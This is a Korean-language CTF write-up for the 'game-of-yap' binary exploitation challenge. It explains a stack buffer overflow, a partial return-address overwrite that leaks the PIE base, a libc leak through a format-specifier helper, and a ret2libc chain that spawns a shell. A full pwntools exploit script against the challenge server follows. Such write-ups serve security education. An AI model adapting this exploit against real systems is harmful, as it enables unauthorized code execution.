

# game-of-yap




game 함수로부터 호출되는 play 함수에서 Stack Buffer Overflow가 발생한다.


main 함수는 game 함수를 두번 호출하므로 Stack Buffer Overflow 또한 두번 발생한다.


바이너리 내부엔 로직상 호출되진 않지만 존재하는 yap 함수가 있다.
이 함수는 %p 형식 지정자를 통해 play 함수 주소를 출력해준다.

위 함수를 통해 leak을 수행할 수 있을 것이다.


해당 바이너리에는 PIE가 적용되어 있어 Stack Buffer Overflow를 통한 RET 변조에도 제약이 있다.


하지만 yap 함수와 play 함수의 반환 주소와의 오프셋은 1바이트 이내이므로 RET에 대한 1byte overwrite를 통해 복귀주소를 yap 함수 주소로 변조하여 간단히 code 주소를 leak하여 code base를 구할 수 있다.

code base를 구했으므로 복귀주소를 main으로 돌려 Stack Buffer Overflow를 얼마든지 일으킬 수 있다.

이제 libc 주소를 구해 system 함수와 binsh 문자열의 주소를 구해야 한다.


puts 호출 이전


puts 호출 이후

puts 함수 호출 이후 rdi와 rsi 레지스터에 libc 주소가 들어간다.
yap 함수에서 두번째 인자, 즉 rsi 값을 %p 포멧 지정자를 통해 출력할 수 있으니 이를 이용해 
game 함수에서 puts를 호출한 후 yap 함수에서 rsi 값을 출력함으로써 libc 주소를 leak할 수 있다.

또한 main 함수의 주소 또한 구했으므로 두번의 Stack Buffer Overflow 모두 사용한 지금, 다시 main 
함수를 호출함으로써 다시 Stack Buffer Overflow를 일으킬 수 있다.

이를 통해 세번째 Stack Buffer Overflow에서 libc 주소로 구한 system 함수와 `/bin/sh` 문자열로 
`system(”/bin/sh”)` 를 호출해 쉘을 실행시킬 수 있다.

```python
#!/usr/bin/env python3

from pwn import *

# Function Aliases
# sendlineafter
def sla(x, y): return io.sendlineafter(x, y)
# sendafter
def sa(x, y): return io.sendafter(x, y)
# send-line
def sl(x): return io.sendline(x)
# send
def s(x): return io.send(x)

# recv-until
def rvu(x): return io.recvuntil(x)
# recv
def rv(x): return io.recv(x)
# recv-line
def rvl(): return io.recvline()

# log info
def li(x): return log.info(x)
# log success
def ls(x): return log.success(x)
# log failure
def lf(x): return log.failure(x)

# Context Settings
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = [
    'tmux',
    'new-window',
    '-n', 'DEBUG-exploit'
]

# GDB Settings
start_script = '''
    brva 0x1238
'''
breakpoint = {

}   

for bp in breakpoint:
    fmt = 'b *{}'.format(bp)
    start_script += fmt + '\n'

# Bind Settings
bin_path = "./game-of-yap"
libc_path = "./libc.so.6"
ld_path =  "ld-linux-x86-64.so.2"

e = ELF(bin_path)
libc = ELF(libc_path)
ld = ELF(ld_path)

# IO Settings
server_addr = "yap.chal.cyberjousting.com"
server_port = 1355

if args['GDB']:
    io = gdb.debug(bin_path, gdbscript=start_script)
elif args['REMOTE']:
    io = remote(server_addr, server_port)
else:
    io = process([e.path], stdin=PTY)

# Main Code
def main():

    sa(b"...\n", b"A"*256+b'B'*8+b'\x80')
    code_base = int(io.recvline()[:-1],16)-e.sym['play']
    log.info("CODE BASE : " + hex(code_base))

    gdb.attach(io)
    pause()
    sa(b"...\n", b"A"*256+b'B'*8+p64(code_base+0x1266)+b'B'*8+p64(code_base+0x128a)+b'B'*8+p64(code_base+e.sym['main']))

    rvu(b"!\n")
    libc_base = int(io.recvline()[:-1],16)-0x204643
    log.info("LIBC BASE : " + hex(libc_base))

    system = libc_base + libc.sym['system']
    binsh = libc_base + next(libc.search(b"/bin/sh"))
    pop_rdi = libc_base + 0x000000000010f75b
    ret = pop_rdi+1
    
    payload = b"A"*256+b'B'*8+p64(pop_rdi)+p64(binsh)+p64(system)
    sa(b"...\n", payload)

    io.interactive()

if __name__ == "__main__":
    main()
```

